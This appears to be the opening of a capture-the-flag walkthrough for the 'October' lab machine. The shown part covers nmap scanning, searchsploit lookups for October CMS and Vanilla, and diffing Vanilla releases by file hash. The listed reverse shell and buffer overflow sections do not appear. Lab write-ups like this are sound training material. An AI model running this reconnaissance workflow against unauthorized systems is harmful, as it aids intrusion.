







#### October

- [Attacker Info]()
- [Nmap Scan]()
- [Reverse Shell]()
- [Buffer Overflow]()
- [Brute force ASLR]()

###### Attacker Info

```sh
root@kali:~/october# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.19  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:fef1:8ebf  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:f1:8e:bf  txqueuelen 1000  (Ethernet)
        RX packets 12943  bytes 3986453 (3.8 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 11701  bytes 1827248 (1.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 19  base 0x2000

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 788  bytes 980140 (957.1 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 788  bytes 980140 (957.1 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.8  netmask 255.255.254.0  destination 10.10.14.8
        inet6 fe80::16bb:8c49:fb9d:35fd  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1006  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 4764  bytes 1228084 (1.1 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 6879  bytes 574715 (561.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~/october#
```

###### Nmap Scan

```sh
root@kali:~/october# nmap -sV -sC -oA october.nmap 10.10.10.16

Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-01 12:13 EST
Nmap scan report for 10.10.10.16
Host is up (0.24s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 79:b1:35:b6:d1:25:12:a3:0c:b5:2e:36:9c:33:26:28 (DSA)
|   2048 16:08:68:51:d1:7b:07:5a:34:66:0d:4c:d0:25:56:f5 (RSA)
|   256 e3:97:a7:92:23:72:bf:1d:09:88:85:b6:6c:17:4e:85 (ECDSA)
|_  256 89:85:90:98:20:bf:03:5d:35:7f:4a:a9:e1:1b:65:31 (EdDSA)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods:
|_  Potentially risky methods: PUT PATCH DELETE
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: October CMS - Vanilla
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.44 seconds
root@kali:~/october#
```


```sh
root@kali:~/october# searchsploit october

-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
 Exploit Title                                                                                                                                                      |  Path
                                                                                                                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
October CMS 1.0.412 - Multiple Vulnerabilities                                                                                                                      | exploits/php/webapps/41936.txt
OctoberCMS 1.0.425 (Build 425) - Cross-Site Scripting                                                                                                               | exploits/php/webapps/42978.txt
OctoberCMS 1.0.426 (Build 426) - Cross-Site Request Forgery                                                                                                         | exploits/php/webapps/43106.txt
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
Shellcodes: No Result
root@kali:~/october#
```

```sh
root@kali:~/october# searchsploit vanilla

-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
 Exploit Title                                                                                                                                                      |  Path
                                                                                                                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
Lussumo Vanilla 1.0 - RootDirectory Remote File Inclusion                                                                                                           | exploits/php/webapps/28260.txt
Lussumo Vanilla 1.1.10 - 'definitions.php' Multiple Remote File Inclusions                                                                                          | exploits/php/webapps/33781.txt
Lussumo Vanilla 1.1.5/1.1.7 - 'updatecheck.php' Cross-Site Scripting                                                                                                | exploits/php/webapps/33013.txt
Vanilla 1.1.3 - Blind SQL Injection                                                                                                                                 | exploits/php/webapps/4548.php
Vanilla 1.1.4 - HTML Injection / Cross-Site Scripting                                                                                                               | exploits/php/webapps/32279.txt
Vanilla < 2.1.5 - Cross-Site Request Forgery                                                                                                                        | exploits/php/webapps/43462.html
Vanilla FirstLastNames 1.3.2 Plugin - Persistent Cross-Site Scripting                                                                                               | exploits/php/webapps/18912.txt
Vanilla Forum 2.0.17.9 - Local File Inclusion                                                                                                                       | exploits/php/webapps/17295.txt
Vanilla Forum Tagging Plugin Enchanced 1.0.1 - Persistent Cross-Site Scripting                                                                                      | exploits/php/webapps/18974.txt
Vanilla Forums 2-0-18-4 - SQL Injection                                                                                                                             | exploits/php/webapps/24927.txt
Vanilla Forums 2.0 < 2.0.18.5 - 'class.utilitycontroller.php' PHP Object Injection                                                                                  | exploits/php/webapps/29512.txt
Vanilla Forums 2.0.16 - 'Target' Cross-Site Scripting                                                                                                               | exploits/php/webapps/35291.txt
Vanilla Forums 2.0.17.x - 'p' Cross-Site Scripting                                                                                                                  | exploits/php/webapps/35375.txt
Vanilla Forums 2.0.18.4 - Tagging Persistent Cross-Site Scripting                                                                                                   | exploits/php/webapps/18980.txt
Vanilla Forums 2.0.18.8 - Multiple Vulnerabilities                                                                                                                  | exploits/php/webapps/25720.txt
Vanilla Forums < 2.3 - Remote Code Execution                                                                                                                        | exploits/php/remote/41996.sh
Vanilla Forums About Me Plugin - Persistent Cross-Site Scripting                                                                                                    | exploits/php/webapps/18911.txt
Vanilla Forums LatestComment 1.1 Plugin - Persistent Cross-Site Scripting                                                                                           | exploits/php/webapps/18908.txt
Vanilla Forums Van2Shout Plugin 1.0.51 - Multiple Cross-Site Request Forgery Vulnerabilities                                                                        | exploits/php/webapps/24957.txt
VideoCharge Professional + Express Vanilla 3.18.4.04 - Local Buffer Overflow                                                                                        | exploits/windows/local/36981.py
VideoCharge Vanilla 3.16.4.06 - Local Buffer Overflow                                                                                                               | exploits/windows/local/36982.py
vanilla forums poll plugin 0.9 - Persistent Cross-Site Scripting                                                                                                    | exploits/php/webapps/18979.txt
vanilla kpoll plugin 1.2 - Persistent Cross-Site Scripting                                                                                                          | exploits/php/webapps/19003.txt
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
Shellcodes: No Result
root@kali:~/october#
```

```
https://open.vanillaforums.com/get/vanilla-core-2.3.1
https://open.vanillaforums.com/get/vanilla-core-2.3
```

```sh
root@kali:~/october/vanilla# wget https://us.v-cdn.net/5018160/uploads/addons/J48X62QECRY1.zip
--2018-02-01 13:10:48--  https://us.v-cdn.net/5018160/uploads/addons/J48X62QECRY1.zip
Resolving us.v-cdn.net (us.v-cdn.net)... 151.139.241.27
Connecting to us.v-cdn.net (us.v-cdn.net)|151.139.241.27|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5410539 (5.2M) [application/zip]
Saving to: ‘J48X62QECRY1.zip’

J48X62QECRY1.zip                                   100%[================================================================================================================>]   5.16M  5.22MB/s    in 1.0s

2018-02-01 13:10:49 (5.22 MB/s) - ‘J48X62QECRY1.zip’ saved [5410539/5410539]

root@kali:~/october/vanilla#
```

```sh
root@kali:~/october/vanilla# wget https://us.v-cdn.net/5018160/uploads/addons/2ZCYQN977HZZ.zip
--2018-02-01 13:10:53--  https://us.v-cdn.net/5018160/uploads/addons/2ZCYQN977HZZ.zip
Resolving us.v-cdn.net (us.v-cdn.net)... 151.139.241.27
Connecting to us.v-cdn.net (us.v-cdn.net)|151.139.241.27|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5418449 (5.2M) [application/zip]
Saving to: ‘2ZCYQN977HZZ.zip’

2ZCYQN977HZZ.zip                                   100%[================================================================================================================>]   5.17M  5.59MB/s    in 0.9s

2018-02-01 13:10:56 (5.59 MB/s) - ‘2ZCYQN977HZZ.zip’ saved [5418449/5418449]

root@kali:~/october/vanilla#
```

```sh
root@kali:~/october/vanilla# mkdir 3.0
root@kali:~/october/vanilla# mkdir 3.1
root@kali:~/october/vanilla# unzip J48X62QECRY1.zip -d 3.0/
root@kali:~/october/vanilla# unzip 2ZCYQN977HZZ.zip -d 3.1/
root@kali:~/october/vanilla# rm *zip
```

```sh
root@kali:~/october/vanilla# find . -type f -exec md5sum {} \; | sed 's/\.[01]//g' > hashes
root@kali:~/october/vanilla# sort hashes | grep -v php$ | uniq -c | sort -nr
      2 fff9cae55f608c49925e1a8e3dc3e1e8  ./3/applications/dashboard/design/setup.css
      2 ffa60b0a9c0fa91d1901595949959889  ./3/vendor/vanilla/nbbc/doc/src/app_example.tpl
      2 ff6ccaa131c0f79e101d8c5f6ae7758f  ./3/applications/dashboard/design/images/sprites-14-000000.png
      2 fecf8315d89e1f327edc61b1e71e8bf1  ./3/plugins/EmojiExtender/emoji/yahoo/dog.gif
      2 fe97362f84c17428c905fec2e9584eb9  ./3/plugins/EmojiExtender/emoji/little/confounded.png
      2 fe776a59b5a323b85175ff4a181ff92f  ./3/plugins/EmojiExtender/emoji/little/sweat@2x.png
      2 fdfc5dffacd4c2cb33133f1930c46638  ./3/plugins/EmojiExtender/emoji/twitter/scream.png
      2 fd255415839568e52a48da5de5af244c  ./3/js/library/nestedSortable/jquery-ui.min.js
      2 fd1ffacd750aedfc2d55f5d9fc79d527  ./3/plugins/EmojiExtender/emoji/rice/glasses.png
      2 fce783869211c9025b68f81aa07ecebf  ./3/plugins/editor/js/buttonbarplus.js
      2 fce3e0151912eb8679827ba34c7e0e63  ./3/applications/dashboard/js/cropimage.js
      2 fc64eaf440bc77a80590e94460ac8c84  ./3/applications/dashboard/design/images/defaulticon.png
      2 fc5c99dfbbc971969597c74db54f0a6b  ./3/js/library/jquery.form.js
      2 fc4feebe78de3718e166f6ae5fb8380c  ./3/plugins/EmojiExtender/emoji/little/tongue@2x.png
      2 fbdbdac9e7f4cc9512cffbc1a21d944a  ./3/plugins/EmojiExtender/emoji/yahoo/lucky.gif
      2 fbaf9e4b5a7c600935b9c24eb4405187  ./3/applications/dashboard/js/dba.js
      2 fb78a9bf2ccb904d133e51106a935cf9  ./3/plugins/EmojiExtender/emoji/rice/wink.png
      2 fb62eff8c5d6396c98692272ae105203  ./3/plugins/EmojiExtender/emoji/little/fearful@2x.png
      2 fb43a70adf8ddf0853ffa88734d22b21  ./3/js/library/jstz.min.js
      2 fb25c0771db2ba71276d37b457e562a5  ./3/plugins/VanillaStats/design/dashboard-sprites.png
      2 fb18449e7fd37f29fabe073f5e64c8c6  ./3/plugins/GooglePrettify/js/lang-hs.js
      2 fad58c0e6e585ed34ac740ea15dcf60c  ./3/js/easyXDM/json2.js
      2 fa940801b65b7cfbc33c17dcd5f90c4f  ./3/plugins/EmojiExtender/emoji/twitter/dissapointed_relieved.png
      2 fa75dc0e40b6a2fcb880f3d253329ef6  ./3/js/library/raphael/raphael.min.js
      2 f8eea01dd315cd2cc632681822d433eb  ./3/vendor/vanilla/nbbc/doc/src/usage_wiki.tpl
      2 f8a00c7685abed94ec72c85dd2194ef1  ./3/resources/emoji/naughty.png
      2 f7f80fa1843a24d192ca28a5fdef70bb  ./3/resources/emoji/love.png
      2 f7c748acc211d7bf3508ad364391c8f5  ./3/applications/dashboard/js/log.js
      2 f7be26cce245554540dc8aae81c587ae  ./3/vendor/vanilla/nbbc/doc/api_root.html
      2 f7a5d8278e19abe0fc4ef0dc10339178  ./3/resources/emoji/warning.png
      2 f787472fde37f52845296699d24d6b43  ./3/plugins/EmojiExtender/emoji/little/blush@2x.png
      2 f738bdac3ce6c87371684336945cc8d0  ./3/plugins/EmojiExtender/emoji/little/neutral.png
      2 f7131c7e93db69232626c143838d83eb  ./3/themes/2011Compatibility/design/screenshot_bigcity.png
      2 f7067fb510ab3bf5d0919d3b216688ac  ./3/plugins/EmojiExtender/emoji/yahoo/flushed.gif
      2 f68c87c6b704880f9f7b800256abb4dd  ./3/plugins/EmojiExtender/emoji/yahoo/neutral.gif
      2 f66e89c402fbb69435d6bdaacff9c8ff  ./3/vendor/vanilla/nbbc/smileys/bigsmile.gif
      2 f61bd9ca75bb653ee215d0986e802e7c  ./3/vendor/vanilla/nbbc/doc/usage_basic.html
      2 f5fe272d2e0af8d8f85df115321c675b  ./3/plugins/EmojiExtender/emoji/yahoo/open_mouth.gif
      2 f5c085d0b998d81040dcc8986c0c5942  ./3/vendor/vanilla/nbbc/doc/src/api_wiki.tpl
      2 f590522a9d84ccb8a853b63edac52167  ./3/plugins/GooglePrettify/js/prettify.plugin.js
      2 f54ea175e5f49e76e84c6d6d05b42e41  ./3/plugins/EmojiExtender/emoji/little/pleased@2x.png
      2 f4a27afdd6a9460b0131ae1f3e1f29ee  ./3/resources/fonts/vanillicon/vanillicon.eot
      2 f4494d3f1ff5a9042126cb0f555b594f  ./3/plugins/editor/.yo-rc.json
      2 f4382e8ea28148c00b22207e3f09dcf1  ./3/resources/design/vanillicon.css
      2 f3f059675ddba8f5b7a3cc3c2e90361a  ./3/js/library/elycharts/elycharts.js
      2 f3bf327188342761efbc533fa46f4fe1  ./3/vendor/vanilla/nbbc/doc/usage_auto.html
      2 f39c1f9dc2c435cf310c7ad1684e1940  ./3/plugins/VanillaStats/design/images/opera.png
      2 f363237a4c967cf0857e316332cadaf0  ./3/vendor/vanilla/nbbc/smileys/evil.gif
      2 f33e907142d1d4a343f56a2b3bed4f21  ./3/plugins/editor/design/wysiwyg.css
      2 f3168198c72b04e7fdcddd2a2b65776c  ./3/plugins/EmojiExtender/emoji/little/lol.png
      2 f29271d35d80cf375f33f3fd326fddb1  ./3/plugins/EmojiExtender/emoji/little/pleased.png
      2 f27870b8288383d34b37fec07617626a  ./3/plugins/EmojiExtender/emoji/yahoo/time_out.gif
      2 f237bc7dfc1bb4de66d6d562a6fb8373  ./3/themes/2011Compatibility/design/custom_poppy.css
      2 f2372e12cb451202c5a9693f93b203b7  ./3/resources/emoji/sweat_smile.png
      2 f1ab3a1e385cc019d4ca089ed37496da  ./3/resources/emoji/sunglasses.png
      2 f14599a2f089f6ff8c97e2baa4e3d575  ./3/library/vendors/pclzip/gnu-lgpl.txt
      2 f1412a1a3692c1907196dec2b28ce3b2  ./3/plugins/EmojiExtender/emoji/twitter/smile.png
      2 f137fb3c05a572458c20bae8eb33060b  ./3/resources/emoji/frowning.png
      2 f0832752d5899158b887b1c4568e0414  ./3/plugins/EmojiExtender/emoji/little/heart.png
      2 f07b8d6260f16fc32e609b61c2f18793  ./3/resources/emoji/cookie.png
      2 f03c76a18df668cf2508a191c5b64dbf  ./3/.htaccess
      2 efdd974b51273b958f6829cb5288a3f4  ./3/library/vendors/oauth/url.txt
      2 efcfa44ca47262a4e4c095975b785549  ./3/plugins/EmojiExtender/emoji/yahoo/cry.gif
      2 efcfa44ca47262a4e4c095975b785549  ./3/plugins/EmojiExtender/emoji/yahoo/bawling.gif
      2 efc12ce4f5d4e0742b69fb728dcc458f  ./3/plugins/EmojiExtender/emoji/twitter/confused.png
      2 ef938cb01cb27e791cc3c596e363acfb  ./3/library/vendors/phpmailer/LICENSE
      2 ef7cee6fc904ab1aaddf4ce28715b409  ./3/resources/emoji/icon.png
      2 ef5773fd497da60a9007cad2451945f4  ./3/plugins/EmojiExtender/emoji/twitter/cry.png
      2 ef4b69a3bbf184b8792d97180d6a50d4  ./3/vendor/vanilla/nbbc/doc/usage_css.html
      2 ef2877f924f0c22736ae22ff9cb3aebc  ./3/library/vendors/Minify/.htaccess
      2 ef0ebf488b049b8f56b9fbd06faca386  ./3/themes/2011Compatibility/screenshot.png
      2 ef0ebf488b049b8f56b9fbd06faca386  ./3/themes/2011Compatibility/design/screenshot.png
      2 ee97ccf77991db150ac8a44cfd89dd2c  ./3/vendor/vanilla/nbbc/powered_by_nbbc.png
      2 ee90756ff3d7ab6ea3915638d7d4309b  ./3/vendor/vanilla/nbbc/doc/src/bbc_ctr.tpl
      2 ee61790f1298bfb9f5a76fed6df96e9a  ./3/applications/dashboard/design/images/socialcons@2x.png
      2 edb5c65e3b999028293bbb5b35453136  ./3/applications/dashboard/design/images/slicesplash.jpg
      2 ecaa40963208277422252affb7bb63eb  ./3/themes/2011Compatibility/design/screenshot_grey.png
      2 ec70875d640a5b6c0b0d35e0dd31be88  ./3/plugins/EmojiExtender/emoji/little/rage@2x.png
      2 ec1d3fde1556f32b9e3b1b098709141f  ./3/plugins/EmojiExtender/emoji/rice/dizzy@2x.png
      2 ec17845f8cb5cbaca02a9d0b13b0fd4a  ./3/applications/dashboard/views/none.master.tpl
      2 ec112b821517eb96d5e402cc1336d5f9  ./3/plugins/EmojiExtender/emoji/little/open_mouth@2x.png
      2 ebc02493205eed68fdd4563f66fb9c22  ./3/vendor/vanilla/nbbc/doc/src/usage_basic.tpl
      2 eb48949063159f98718fad3d0bb7a0ec  ./3/vendor/vanilla/nbbc/.travis.yml
      2 eb110cc57d15fa019b3d1622d5c22059  ./3/themes/2011Compatibility/design/star_sprite_poppy.png
      2 eaf31a4259563e1d1d9c2894784cadb5  ./3/plugins/EmojiExtender/emoji/twitter/hushed.png
      2 eacffe5e046b784cf281ed08cdf1acf4  ./3/vendor/vanilla/nbbc/smileys/wink3.gif
      2 eab61bb8620afaa8e01cc18bfbe16407  ./3/plugins/EmojiExtender/emoji/little/eh.png
      2 ea6ba1d2a5d9749fb2b8a00f9e8fca92  ./3/vendor/vanilla/nbbc/smileys/blue.gif
      2 ea3b339ec6d2fb250be8c562cb22dc30  ./3/applications/dashboard/design/nicepopup.css
      2 e9d2896a034289d6f4a093490d762b33  ./3/vendor/vanilla/nbbc/smileys/smile.gif
